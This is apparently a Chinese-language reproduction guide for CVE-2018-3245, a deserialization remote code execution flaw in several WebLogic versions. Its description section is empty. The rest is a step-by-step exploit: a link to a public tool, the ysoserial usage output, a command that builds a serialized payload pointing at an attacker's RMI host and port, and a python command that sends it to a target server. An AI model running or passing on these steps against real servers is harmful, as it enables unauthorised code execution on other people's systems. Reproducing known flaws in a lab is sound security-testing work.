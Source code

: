 ```yaml
---
title: （CVE-2018-3245）WebLogic反序列化远程代码执行漏洞
id: zhfly3228
---
```


# （CVE-2018-3245）WebLogic反序列化远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

WebLogic 10.3.6.0

WebLogic 12.1.3.0

WebLogic 12.2.1.3

## 三、复现过程

```
https://github.com/ianxtianxt/CVE-2018-3245 
```

### Step 1

```
java -jar ysoserial-cve-2018-3245.jar 
```

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff 
```

### Step 2

```
java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc5.ser 
```

### Step 3

```
python weblogic.py [TARGET_HOST] [PORT] poc5.ser 
```